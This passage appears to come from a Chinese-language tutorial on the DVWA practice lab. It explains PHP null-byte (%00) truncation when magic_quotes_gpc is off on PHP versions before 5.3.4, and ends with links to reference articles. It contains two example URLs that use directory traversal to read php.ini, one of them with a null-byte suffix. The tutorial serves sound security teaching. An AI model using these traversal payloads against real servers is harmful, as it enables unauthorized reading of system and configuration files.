    同时我们看到，配置文件中的 Magic_quote_gpc 选项为 off。在 php 版本小于 5.3.4 的服务器中，当 Magic_quote_gpc 选项为 off 时，我们可以在文件名中使用 %00 进行截断，也就是说文件名中 %00 后的内容不会被识别，即下面两个 url 是完全等效的。

    1. http://<IP地址!!!>/dvwa/vulnerabilities/fi/page=..\..\..\..\..\..\..\..\..\xampp\htdocs\dvwa\php.ini

    2. http://<IP地址!!!>/dvwa/vulnerabilities/fi/page=..\..\..\..\..\..\..\..\..\xampp\htdocs\dvwa\php.ini%0012.php


https://www.freebuf.com/articles/web/119150.html

http://www.storysec.com/dvwa-sql-injection.html

https://blog.csdn.net/hitwangpeng/article/details/47042971

https://blog.csdn.net/nzjdsds/article/details/81814066


https://www.freebuf.com/author/lonehand
http://www.storysec.com/dvwa-sql-injection.html


